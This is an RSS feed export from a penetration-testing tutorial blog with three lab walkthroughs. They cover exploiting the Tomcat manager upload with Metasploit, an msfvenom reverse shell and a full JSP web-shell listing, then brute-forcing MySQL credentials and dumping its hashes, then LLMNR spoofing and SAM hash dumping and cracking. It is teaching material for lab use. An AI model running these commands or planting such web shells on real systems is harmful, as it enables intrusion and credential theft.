<?xml version="1.0" encoding="UTF-8"?><rss version="2.0"
	xmlns:content="http://purl.org/rss/1.0/modules/content/"
	xmlns:wfw="http://wellformedweb.org/CommentAPI/"
	xmlns:dc="http://purl.org/dc/elements/1.1/"
	xmlns:atom="http://www.w3.org/2005/Atom"
	xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
	xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
	>

<channel>
	<title>Ethical Hacking With Kali Linux</title>
	<atom:link href="" rel="self" type="application/rss+xml" />
	<link>../../../index.html</link>
	<description></description>
	<lastBuildDate>Mon, 18 Nov 2024 11:04:40 +0000</lastBuildDate>
	<language>en-US</language>
	<sy:updatePeriod>
	hourly	</sy:updatePeriod>
	<sy:updateFrequency>
	1	</sy:updateFrequency>
	<generator>https://wordpress.org/?v=6.7</generator>

<image>
	<url>../../../wp-content/uploads/2022/02/cropped-cropped-text2image_P1487918_20220215_120124-32x32.png</url>
	<title>Ethical Hacking With Kali Linux</title>
	<link>../../../index.html</link>
	<width>32</width>
	<height>32</height>
</image> 
	<item>
		<title>Apache Tomcat Penetration Testing</title>
		<link>../../../2024/11/18/apache-tomcat-penetration-testing/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 11:04:37 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8891</guid>

					<description><![CDATA[Apache Tomcat, developed by the Apache Software Foundation, is a widely used web server and servlet container. Originally, it served as a demonstration platform for Java Servlet and JavaServer Pages....]]></description>
										<content:encoded><![CDATA[
<p>Apache Tomcat, developed by the Apache Software Foundation, is a widely used web server and servlet container. Originally, it served as a demonstration platform for Java Servlet and JavaServer Pages (JSP) technologies, which are used in Java web applications. As time passed, Tomcat expanded its capabilities to support additional Java web technologies.</p>


<p>A notable feature of Tomcat is its support for deploying web applications using WAR (Web Application Archive) files. These files bundle together all the components of a web application, including code, pages, and files, making deployment simpler. Tomcat allows users to upload and run these WAR files, enabling them to host their applications on the internet.</p>


<p>In addition to WAR files, Tomcat also supports the deployment of JSP pages. JSP is a technology that allows developers to create dynamic web pages using Java. Tomcat can execute these JSP pages, making it versatile for hosting a wide range of web applications.</p>


<p>By default, Tomcat supports the use of WAR files and JSP pages. However, administrators can configure settings to ensure security and control over file uploads, enhancing the overall safety of the server.</p>


<h3 class="wp-block-heading"><strong>Table of Contents</strong></h3>


<ul class="wp-block-list">
<li>Lab Setup</li>


<li>Installation</li>


<li>Configuration</li>


<li>Enumeration</li>


<li>Exploitation using Metasploit Framework</li>


<li>Exploiting Manually (Reverse shell)</li>


<li>Exploiting Manually (Web shell)</li>


<li>Conclusion</li>
</ul>


<h3 class="wp-block-heading">Lab Setup</h3>


<p>In this article, we are going to setup the Tomcat server on the ubuntu machine and exploit the file upload vulnerability. Following are the machines:</p>


<p><strong>Target Machine:</strong>&nbsp;Ubuntu (192.168.1.5)</p>


<p><strong>Attacker Machine:</strong>&nbsp;Kali Linux (192.168.1.7)</p>


<h3 class="wp-block-heading">Installation</h3>


<p>Apache Tomcat relies on Java, meaning you’ll need to have the Java JDK installed on your server. You can install it by running the command below:</p>


<p>apt install openjdk-11-jdk</p>


<figure class="wp-block-image"></figure>


<p>Add a new user by the name&nbsp;<strong>tomcat</strong>&nbsp;using the following command:</p>


<p>useradd -m -U -d /opt/tomcat -s /bin/<strong>false</strong> tomcat</p>


<figure class="wp-block-image"></figure>


<p>Download the Tomcat&nbsp;<strong>tar.gz</strong>&nbsp;file from the official website.</p>


<figure class="wp-block-image"></figure>


<p>Download the latest version from the website into the ubuntu machine and extract the downloaded files.</p>


<p>wget https://archive.apache.org/dist/tomcat/tomcat-10/v10.0.20/bin/apache-tomcat-10.0.20.tar.gz</p>


<p>tar -xvf apache-tomcat-10.1.20.tar.gz</p>


<figure class="wp-block-image"></figure>


<p>Move the extracted folder in the&nbsp;<strong>/opt/tomcat</strong>&nbsp;directory, give the ownership permissions to tomcat user and set the execution permission on binary files.</p>


<p>mv apache-tomcat-10.1.20/* /opt/tomcat</p>


<p>chown -R tomcat: /opt/tomcat</p>


<p>sh -c &#8216;chmod +x /opt/tomcat/bin/*.sh &#8216;</p>


<figure class="wp-block-image"></figure>


<p>Create a&nbsp;<strong>tomcat.service</strong>&nbsp;file in the&nbsp;<strong>/etc/systemd/system/</strong>&nbsp;directory and add the following content in the file:</p>


<p>[Unit]</p>


<p>Description=Apache Tomcat</p>


<p>After=network.target</p>


<p>[Service]</p>


<p>Type=forking</p>


<p>User=tomcat</p>


<p>Group=tomcat</p>


<p>Environment=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64</p>


<p>Environment=CATALINA_PID=/opt/tomcat/tomcat.pid</p>


<p>Environment=CATALINA_HOME=/opt/tomcat</p>


<p>Environment=CATALINA_BASE=/opt/tomcat</p>


<p>Environment=&#8221;CATALINA_OPTS=-Xms512M -Xmx1024M -server -XX:+UseParallelGC&#8221;</p>


<p>ExecStart=/opt/tomcat/bin/startup.sh</p>


<p>ExecStop=/opt/tomcat/bin/shutdown.sh</p>


<p>ExecReload=/bin/kill $MAINPID</p>


<p>RemainAfterExit=yes</p>


<p>[Install]</p>


<p>WantedBy=multi-user.target</p>


<figure class="wp-block-image"></figure>


<p>Reload the systemd daemon to apply the changes using the following command:</p>


<p>systemctl daemon-reload</p>


<p>&nbsp;Also, enable the tomcat service to start at system reboot.</p>


<p>systemctl enable &#8211;now tomcat</p>


<p>Checking the status of the tomcat server:</p>


<p>systemctl status tomcat</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Configuration</h3>


<p>After the installation is complete, its time to configure the Tomcat server.</p>


<p>To create admin user password, make changes in the following file:</p>


<p>nano /opt/tomcat/conf/tomcat-users.xml</p>


<p>Add the following code above the&nbsp;<strong>&lt;/tomcat-users&gt;</strong>:</p>


<p>&lt;role rolename=&#8221;admin-gui&#8221;/&gt;</p>


<p>&lt;role rolename=&#8221;manager-gui&#8221;/&gt;</p>


<p>&lt;user username=&#8221;admin&#8221; password=&#8221;password&#8221; roles=&#8221;admin-gui,manager-gui&#8221;/&gt;</p>


<figure class="wp-block-image"></figure>


<p>To enable remote access for Tomcat Manager, make the following changes in the&nbsp;<strong>context.xml</strong>&nbsp;file present in the&nbsp;<strong>manager&nbsp;</strong>and&nbsp;<strong>host-manager</strong>&nbsp;directory.</p>


<p>nano /opt/tomcat/webapps/manager/META-INF/context.xml</p>


<p>nano /opt/tomcat/webapps/host-manager/META-INF/context.xml</p>


<p>Remove the following line from both the above files as shown below:</p>


<figure class="wp-block-image"></figure>


<figure class="wp-block-image"></figure>


<p>Once done with the changes, restart the tomcat service in ubuntu.</p>


<p>systemctl restart tomcat</p>


<figure class="wp-block-image"></figure>


<p>Observe that the Tomcat server is up and running on port 8080 in the ubuntu machine.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Enumeration</h3>


<p>After the installation and configuration is complete, now starting the enumeration phase.</p>


<p>Using Kali linux as an attacker machine, initial enumeration can be performed using nmap.</p>


<p>nmap -p 8080 -sV 192.168.1.5</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Exploitation using Metasploit Framework</h3>


<p>First trying to exploit the functionality using&nbsp;<strong>Metasploit</strong>&nbsp;as an exploit is already available for the tomcat file upload vulnerability. The exploit used here is&nbsp;<strong>exploit/multi/http/tomcat_mgr_upload</strong>.</p>


<p>Inside Metasploit, type the below given commands to run the exploit:</p>


<p>use exploit/multi/http/tomcat_mgr_upload</p>


<p>set rhosts 192.168.1.5</p>


<p>set report 8080</p>


<p>set httpusername admin</p>


<p>set httppassword password</p>


<p>show targets</p>


<p>set target 2</p>


<p>set payload linux/x86/meterpreter_reverse_tcp</p>


<p>exploit</p>


<figure class="wp-block-image"></figure>


<p>From above it can be seen that a reverse shell is obtained and the commands can be executed using the&nbsp;<strong>meterpreter</strong>&nbsp;shell.</p>


<h3 class="wp-block-heading">Exploiting Manually (Reverse Shell)</h3>


<p>The above exploitation process can also be performed manually. In order to do that we first need to create a&nbsp;<strong>.war</strong>&nbsp;file using&nbsp;<strong>msfvenom</strong>.</p>


<p>msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.1.7 lport=1234 -f war &gt; shell.war</p>


<figure class="wp-block-image"></figure>


<p>After the&nbsp;<strong>shell.war</strong>&nbsp;file has been created, we need to upload that file inside tomcat manager app.</p>


<p>To access the&nbsp;<strong>Manager App</strong>, it will require a basic authentication. The username can be given as&nbsp;<strong>admin</strong>&nbsp;and password as&nbsp;<strong>password</strong>&nbsp;to access the manager app.</p>


<figure class="wp-block-image"></figure>


<p>After login into the&nbsp;<strong>Manager App</strong>, upload the above created&nbsp;<strong>shell.war</strong>&nbsp;file in the&nbsp;<strong>War file to deploy functionality</strong>.</p>


<figure class="wp-block-image"></figure>


<p>Once the file is uploaded it can be seen in the uploaded files section.</p>


<figure class="wp-block-image"></figure>


<p>Before accessing the uploaded file, start a&nbsp;<strong>netcat</strong>&nbsp;listener on port&nbsp;<strong>1234</strong>.</p>


<p>rlwrap nc -lvnp 1234</p>


<p>Click on the&nbsp;<strong>/shell</strong>&nbsp;to access the file to obtain a reverse shell.</p>


<figure class="wp-block-image"></figure>


<p>The reverse shell is obtained at port 1234.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Exploiting Manually (Web Shell)</h3>


<p>To get a web shell, a&nbsp;<strong>.war</strong>&nbsp;file can be used which will contain&nbsp;<strong>.jsp</strong>&nbsp;files such that after the&nbsp;<strong>.war</strong>&nbsp;file is uploaded to the server the webshell is obtained.</p>


<p>To create a .war containing the .jsp files java is required in the kali linux machine.</p>


<p>apt install openjdk-11-jdk</p>


<figure class="wp-block-image"></figure>


<p>Now, create a&nbsp;<strong>webshell</strong>&nbsp;directory, within it we will place the&nbsp;<strong>index.jsp</strong>&nbsp;file.</p>


<p>mkdir webshell</p>


<p>cd webshell</p>


<p>nano index.jsp</p>


<figure class="wp-block-image"></figure>


<p>Copy the following code in the&nbsp;<strong>index.jsp</strong>&nbsp;file for the web shell.</p>


<p>&lt;FORM METHOD=GET ACTION=&#8217;index.jsp&#8217;&gt;</p>


<p>&lt;INPUT name=&#8217;cmd&#8217; type=text&gt;</p>


<p>&lt;INPUT type=submit value=&#8217;Run&#8217;&gt;</p>


<p>&lt;/FORM&gt;</p>


<p>&lt;%@ page import=&#8221;java.io.*&#8221; %&gt;</p>


<p>&lt;%</p>


<p>String cmd = request.getParameter(&#8220;cmd&#8221;);</p>


<p>String output = &#8220;&#8221;;</p>


<p><strong>if</strong>(cmd != <strong>null</strong>) {</p>


<p>String s = <strong>null</strong>;</p>


<p><strong>try</strong> {</p>


<p>Process p = Runtime.getRuntime().exec(cmd,<strong>null</strong>,<strong>null</strong>);</p>


<p>BufferedReader sI = <strong>new</strong> BufferedReader(<strong>new</strong></p>


<p>InputStreamReader(p.getInputStream()));</p>


<p><strong>while</strong>((s = sI.readLine()) != <strong>null</strong>) { output += s+&#8221;&lt;/br&gt;&#8221;; }</p>


<p>} <strong>catch</strong>(IOException e) { e.printStackTrace(); }</p>


<p>}</p>


<p>%&gt;</p>


<p>&lt;pre&gt;&lt;%=output %&gt;&lt;/pre&gt;</p>


<figure class="wp-block-image"></figure>


<p>After the&nbsp;<strong>index.jsp</strong>&nbsp;file is created, the package can now be created after converting the directory into a&nbsp;<strong>.war</strong>&nbsp;file.</p>


<p>jar -cvf ../webshell.war *</p>


<figure class="wp-block-image"></figure>


<p>After the webshell.war file is created, uploading it in the deploy functionality.</p>


<figure class="wp-block-image"></figure>


<p>The&nbsp;<strong>index.jsp</strong>&nbsp;page can be accessed within the uploaded webshell directory and a webshell is obtained.</p>


<figure class="wp-block-image"></figure>


<figure class="wp-block-image"></figure>


<p>An alternative way to do the above manual exploitation can by downloading the&nbsp;<strong>cmd.jsp</strong>&nbsp;file and creating a&nbsp;<strong>webshell.war</strong>&nbsp;file using&nbsp;<strong>zip</strong>.</p>


<p>The webshell jsp file can be downloaded from here:</p>


<p><a href="https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/jsp">https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/jsp</a></p>


<figure class="wp-block-image"></figure>


<p>After the&nbsp;<strong>cmd.jsp</strong>&nbsp;file is downloaded, a&nbsp;<strong>revshell.war</strong>&nbsp;file can be created using the following command:</p>


<p>zip -r revshell.war cmd.jsp</p>


<figure class="wp-block-image"></figure>


<p>Again, repeating the same procedure as discussed earlier, after uploading the&nbsp;<strong>revshell.war</strong>&nbsp;file in the deploy functionality. The web shell is obtained after accessing the file at the path:&nbsp;http://192.168.1.5:8080/revshell/cmd.jsp</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Conclusion</h3>


<p>In essence, Apache Tomcat remains a preferred choice for deploying Java web applications, offering a blend of versatility and security that caters to the diverse needs of developers and administrators alike. However, due to misconfigurations it can be abused to perform certain unintended actions like Remote Code Execution.</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Penetration Testing on MYSQL (Port 3306)</title>
		<link>../../../2024/11/18/penetration-testing-on-mysql-port-3306/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 10:50:23 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<category><![CDATA[SQL, Botnets and XSS Attacks Tools and Resources]]></category>
		<guid isPermaLink="false">../../../index.html?p=8888</guid>

					<description><![CDATA[MySQL is an open-source Relational Database Management System (RDBMS). It is widely used for managing and organizing data in a structured format, using tables to store the data. MySQL functions....]]></description>
										<content:encoded><![CDATA[
<p>MySQL is an open-source Relational Database Management System (RDBMS). It is widely used for managing and organizing data in a structured format, using tables to store the data. MySQL functions in a networked setup utilizing a client-server architecture. In this configuration, the MySQL server manages the database, while client applications connect to the server to execute tasks like querying and updating data. The interaction between the MySQL clients and the server is conducted over the TCP/IP protocol, with MySQL by default listening on port 3306.</p>


<h3 class="wp-block-heading">Table of Contents</h3>


<ul class="wp-block-list">
<li>Lab setup</li>


<li>Installation</li>


<li>Connecting to MySQL server</li>


<li>Brute forcing MySQL credentials</li>


<li>Exploitation using Metasploit</li>


<li>Configuring a custom port</li>


<li>Conclusion</li>
</ul>


<h3 class="wp-block-heading">Lab setup</h3>


<p>Target Machine: Ubuntu (192.168.31.205)</p>


<p>Attacker Machine: Kali Linux (192.168.31.141)</p>


<h3 class="wp-block-heading">Installation</h3>


<p>We are going to start with the MySQL server setup in the ubuntu machine. The command for installing the server is:</p>


<p>apt install mysql-server</p>


<figure class="wp-block-image"></figure>


<p>To check if the server is up and running, use the following command:</p>


<p>netstat -tlnp</p>


<figure class="wp-block-image"></figure>


<p>It can be seen from above that the server is up and running at port 3306.</p>


<h3 class="wp-block-heading">Connecting to MySQL server</h3>


<p>We are going to scan the IP using the&nbsp;<strong>nmap</strong>&nbsp;tool in kali linux to check if the service is showing as closed or open. To do so we will run the following command in kali linux:</p>


<p>nmap -p3306 -sV 192.168.31.205</p>


<figure class="wp-block-image"></figure>


<p>It can be seen from above that the port&nbsp;<strong>3306</strong>&nbsp;at which the mysql service is running is&nbsp;<strong>closed</strong>. The reason for it is that the MySQL server is running internally on that machine and is using the&nbsp;<strong>bind-address</strong>&nbsp;set to&nbsp;<strong>127.0.0.1</strong>&nbsp;in the default settings.</p>


<p>In order to make the service open, we need to change the configuration. For that edit the&nbsp;<strong>mysqld.cnf</strong>&nbsp;file inside the ubuntu machine. To do so use the following command:</p>


<p>nano /etc/mysql/mysql.conf.d/mysqld.cnf</p>


<figure class="wp-block-image"></figure>


<p>To make the service open, comment out (#) the&nbsp;<strong>bind-address = 127.0.0.1</strong>&nbsp;line.</p>


<figure class="wp-block-image"></figure>


<p>Now again scan the IP using the&nbsp;<strong>nmap</strong>&nbsp;tool, it can be seen that the service is open now.</p>


<p>nmap -p3306 -sV 192.168.31.205</p>


<figure class="wp-block-image"></figure>


<p>However, it can be noted that even the service state is showing as&nbsp;<strong>open</strong>, we will be unable to connect with service remotely. To enable the&nbsp;<strong>root</strong>&nbsp;user to connect from any host and perform any action on any database, the following SQL commands are used in the ubuntu machine:</p>


<p>mysql -uroot</p>


<p>CREATE USER &#8216;root&#8217;@&#8217;%&#8217; IDENTIFIED BY &#8216;123&#8217;;</p>


<p>GRANT ALL PRIVILEGES ON *.* TO &#8216;root&#8217;@&#8217;%&#8217;;</p>


<p>FLUSH PRIVILEGES;</p>


<figure class="wp-block-image"></figure>


<p>The commands from the above can be interpreted as follows:</p>


<p>The first command is used to log into the MySQL server as the&nbsp;<strong>root</strong>&nbsp;user. The second command creates a new user named&nbsp;<strong>root</strong>&nbsp;who can connect from any host (%) and sets the password to&nbsp;<strong>123</strong>. The third command grants the newly created root user all privileges on all databases and tables. The last command reloads the privilege tables, ensuring that the changes take effect immediately.</p>


<p>Now we can check if we can login into the MySQL server remotely by running the following command in kali linux:</p>


<p>mysql -h 192.168.31.205 -uroot -p</p>


<figure class="wp-block-image"></figure>


<p>Since we are able to connect with the service remotely, now we will start the pentesting.</p>


<h3 class="wp-block-heading">Brute forcing MySQL credentials</h3>


<p>We can brute force the MySQL credentials by passing a list of usernames and passwords using the&nbsp;<strong>hydra</strong>&nbsp;tool inside kali linux. Here we are using the username list as&nbsp;<strong>users.txt</strong>&nbsp;and the password list as&nbsp;<strong>pass.txt</strong>. The command for brute force attack will be:</p>


<p>hydra -L users.txt -P pass.txt 192.168.31.205 mysql</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Exploitation using Metasploit</h3>


<p>There are lot of exploits and auxiliaries related with the MySQL server. Here we are going to demonstrate few of them to give an insight on the MySQL pentesting.</p>


<p>First we will be using the&nbsp;<strong>auxiliary/admin/mysql/mysql_sql&nbsp;</strong>inside&nbsp;<strong>Metasploit&nbsp;</strong>to run the SQL queries directly after connecting with the database.</p>


<p>msfconsole -q</p>


<p>use auxiliary/admin/mysql/mysql_sql</p>


<p>set rhosts 192.168.31.205</p>


<p>set username root</p>


<p>set password 123</p>


<p>set sql show databases</p>


<p>run</p>


<figure class="wp-block-image"></figure>


<p>There is another auxiliary which helps in dumping the entire data, i.e.,&nbsp;<strong>auxiliary/scanner/mysql/mysql_schemadump.&nbsp;</strong>We just need to give the username and password to connect with the database and we can dump the entire schema.</p>


<p>use auxiliary/scanner/mysql/mysql_schemadump</p>


<p>set rhosts 192.168.31.205</p>


<p>set username root</p>


<p>set password 123</p>


<p>run</p>


<figure class="wp-block-image"></figure>


<p>To dump the usernames and password hashes, we can use the&nbsp;<strong>auxiliary/scanner/mysql/mysql_hashdump</strong>, it gives us the usernames and the password hashes as output.</p>


<p>use auxiliary/scanner/mysql/mysql_hashdump</p>


<p>set rhosts 192.168.31.205</p>


<p>set username root</p>


<p>set password 123</p>


<p>run</p>


<figure class="wp-block-image"></figure>


<p>In order to check if there is file which is writeable at the server side, we can identify it using the&nbsp;<strong>auxiliary/scanner/mysql/mysql_writable_dirs.&nbsp;</strong>However, it is not possible by default. There is a setting which we need to change in the configuration file after which we can enumerate the writable directory.</p>


<p>To make this configuration, edit the&nbsp;<strong>/etc/mysql/mysql.conf.d/mysqld.cnf&nbsp;</strong>file and add the line&nbsp;<strong>secure_file_priv=</strong>&nbsp;<strong>”&nbsp;</strong><strong>“</strong>&nbsp;at the end.</p>


<figure class="wp-block-image"></figure>


<p>Now check for the writable directories using Metasploit.</p>


<p>use auxiliary/scanner/mysql/mysql_writable_dirs</p>


<p>set rhosts 192.168.31.205</p>


<p>set username root</p>


<p>set password 123</p>


<p>set dir_list dir.txt</p>


<p>run</p>


<figure class="wp-block-image"></figure>


<p>It can be seen from above that the directory&nbsp;<strong>/tmp</strong>&nbsp;is writeable.</p>


<p>To enumerate the files and directories if they exist on the machine or not we can use the&nbsp;<strong>auxiliary/scanner/mysql/mysql_file_enum</strong>. It will give us the results if the directory or file exists or not.</p>


<figure class="wp-block-image"></figure>


<p>Finally, to enumerate the whole MySQL server we can use the&nbsp;<strong>auxiliary/admin/mysql/mysql_enum</strong>, which will perform the enumeration on the MySQL server after using the valid credentials.</p>


<p>use auxiliary/admin/mysql/mysql_enum</p>


<p>set rhosts 192.168.31.205</p>


<p>set username root</p>


<p>set password 123</p>


<p>run</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Configuring a custom port</h3>


<p>To perform the port modification in MySQL, we need to edit the configuration file. The path for the file is&nbsp;<strong>/etc/mysql/mysql.conf.d/mysqld.cnf</strong>.</p>


<p>nano etc/mysql/mysql.conf.d/mysqld.cnf</p>


<figure class="wp-block-image"></figure>


<p>As we can see that the default port is&nbsp;<strong>3306</strong>&nbsp;which is getting used and is commented out (#). We can modify the port number to&nbsp;<strong>4403</strong>&nbsp;and remove the comment (#) from the line.</p>


<figure class="wp-block-image"></figure>


<p>Now if we scan the IP using&nbsp;<strong>nmap</strong>, it can be seen that the service is up and running at port&nbsp;<strong>4403</strong>.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Conclusion</h3>


<p>MySQL server has been a popular choice for most of the application developers from many years, however it’s misconfiguration can lead to the data leakage. It is recommended to use the proper configuration and implement a strong password policy for the service.</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Advanced System &#038; Network Pen-Testing Guides</title>
		<link>../../../2024/11/18/advanced-system-network-pen-testing-guides/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 10:41:42 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8869</guid>

					<description><![CDATA[System hacking is the science of testing computers and network for vulnerabilities and harmful plug-ins. System hacking is itself a vast subject which consists of hacking the different software based....]]></description>
										<content:encoded><![CDATA[
<p>System hacking is the science of testing computers and network for vulnerabilities and harmful plug-ins. System hacking is itself a vast subject which consists of hacking the different software based technological systems such as laptops, desktops, etc. System hacking is defined as the compromise of computer systems and software to gain access to the target computer and steal or misuse their sensitive information. Here the malicious hacker exploits the weaknesses in a computer system or network to gain unauthorized access of its data or take illegal advantage of it.</p>


<h1 class="wp-block-heading" id="llmnrnbt-ns">LLMNR/NBT-NS</h1>


<p>Link-Local Multicast Name Resolution (LLMNR) and Netbios Name Service (NBT-NS) are two components of Microsoft Windows machines. LLMNR was introduced in Windows Vista and is the successor to NBT-NS.</p>


<p>When a DNS name server request fails, Link-Local Multicast Name Resolution(LLMNR) and Net-BIOS Name Service(NBT-NS) is used by Windows machines as a fallback. If the DNS name still remains unresolved, the windows performs an unauthenticated UDP broadcast to the whole network. Any masquerading machine, claiming to be the server then sends a response and capture the target’s credentials during the authentication process.</p>


<p><strong>LLMNR/NBT-NS Spoofing attack</strong>&nbsp;is a classical internal network attack that still works, due to low awareness and the fact it’s enabled by default in Windows.</p>


<figure class="wp-block-image"></figure>


<p>LLMNR and NBT-NS are enabled by default in Windows and can be used to extract the passwords hashes from a user. There is a good chance of acquiring the user credentials on a internal network.</p>


<p>By listening for LLMNR/NBT-NS broadcast requests, it is possible for an attacker to spoof itself as the server and send a response claiming to be the legitimate server. After the victim system accepts the connection, it is possible to gain the victim’s user-credentials by using a tool like Responder.py.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/1-LLMNR-NBT-NS.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Perform LLMNR/NBT-NS spoofing attack.</li>
</ul>


<h3 class="wp-block-heading" id="requesites">Requesites<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/1-LLMNR-NBT-NS.html#requesites"></a></h3>


<ul class="wp-block-list">
<li>Windows 10 virtual machine.</li>


<li>Kali Linux virtual machine.</li>
</ul>


<h2 class="wp-block-heading" id="using-responder">Using Responder<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/1-LLMNR-NBT-NS.html#using-responder"></a></h2>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Launch and login to Windows 10 machine. (Make sure to select a common password that ‘non-tech’ people will use &#8211; i.e <strong>qwerty</strong>).</li>


<li>Go to Kali Linux and open the Terminal window.</li>


<li>Start Responder to listen the network interface. (You can type <code>responder -h</code> to see the options available).</li>
</ol>


<p><code>responder -I eth0</code></p>


<ol class="wp-block-list">
<li>Now go back to the Windows 10 machine and let’s assume that you want to access a shared network drive connected in your network. Launch <strong>run</strong> and type:</li>
</ol>


<p><code>\\ceh-tools</code></p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="obtaining-and-cracking-the-hashes">Obtaining and Cracking the Hashes<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/1-LLMNR-NBT-NS.html#obtaining-and-cracking-the-hashes"></a></h2>


<p>On the Kali Machine, Responder starts capturing the access logs of Windows 10 machine as shown below:</p>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Go to <strong>/usr/share/responder/logs/</strong> and open the last file created by responder:</li>
</ol>


<p><strong>SMB-NTLMv2-SSP-10.0.2.39.txt</strong>&nbsp;</p>


<p>These are hashes of the logged in user collected by responder. Now let’s crack these hashes.</p>


<p>To crack the passwords we will use&nbsp;<a href="https://www.openwall.com/john/">JohnTheRipper</a>.</p>


<ol class="wp-block-list">
<li>Open a new Terminal window and type <code>john</code> and the path to the responder logs + the name of your log file (note the file name may differ from your lab environment):</li>
</ol>


<p><code>john /usr/share/responder/logs/SMB-NTLMv2-SSP-10.0.2.39.txt</code></p>


<pre class="wp-block-code"><code>Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (netntlmv2, NTLMv2 C/R &#91;MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
qwerty           (Dummy)
qwerty           (Dummy)
qwerty           (Dummy)
qwerty           (Dummy)
4g 0:00:00:00 DONE 2/3 (2019-12-11 13:51) 26.66g/s 357713p/s 378293c/s 378293C/s 123456..random
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
</code></pre>


<p>The cracked passwords hashes of the Dummy user has shown in the output above.</p>


<h1 class="wp-block-heading" id="dumping-and-cracking-sam-hashes-to-extract-plaintext-passwords">Dumping and Cracking SAM hashes to Extract Plaintext passwords</h1>


<p>Pwdump7 can be used to dump protected files. Ophcrack is a free open source (GPL) program that cracks Windows passwords by using LM hashes through rainbow tables.</p>


<p>SAM (Security Account Manager) is a database file present in Windows machines that stores user accounts and security descriptors for users on a local computer. It stores users passwords in a hashed format (in LM hash and NTLM hash). Because a hash function is one-way, this provides some measure of security for the storage of the passwords.</p>


<p>You need to have administrator access to dump the contents of the SAM file. Assessment of password strength is a critical milestone during your security assessment engagement. You will start your password assessment with a simple SAM hash dump and running it with a hash decryptor to uncover plaintext passwords.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/2-SAM-Hashes.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Use the <strong>pwdump7</strong> tool to extract password hashes.</li>


<li>Use the Ophcrack tool to crack the passwords and obtain plain text passwords.</li>
</ul>


<h3 class="wp-block-heading" id="requisites">Requisites<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/2-SAM-Hashes.html#requisites"></a></h3>


<ul class="wp-block-list">
<li>Windows 10 machine.</li>
</ul>


<h3 class="wp-block-heading" id="tools">Tools<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/2-SAM-Hashes.html#tools"></a></h3>


<ul class="wp-block-list">
<li><a href="https://ophcrack.sourceforge.io/">Ophcrack</a></li>


<li><a href="https://www.tarasco.org/security/pwdump_7/index.html">Pwdump7</a></li>
</ul>


<h2 class="wp-block-heading" id="generate-hashes">Generate Hashes<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/2-SAM-Hashes.html#generate-hashes"></a></h2>


<ol class="wp-block-list">
<li>Before anything, we need to find the User IDs associated with the usernames for Windows 10.</li>


<li>Launch the Command prompt in Administrator mode and type:</li>
</ol>


<p><code>wmic useraccount get name,sid &gt; c:/users.txt</code></p>


<p>This command we got the usernames and their respective UserIDs.&nbsp;<strong>Make a note of each UserID for further steps.</strong></p>


<ol class="wp-block-list">
<li>To gather the Password hashes, go to the <strong>pwdump7</strong> folder and execute the .exe file.</li>
</ol>


<p><code>cd C:\Users\Dummy\Desktop\pwdump7</code></p>


<p><code>PwDump7.exe</code></p>


<p>To gather this information on external .txt file, type:</p>


<p><code>PwDump7.exe &gt; c:\hashes.txt</code></p>


<p>Now place the usernames before the respective UserIDs that we have gathered in&nbsp;<strong>step 2</strong>&nbsp;and save the file.</p>


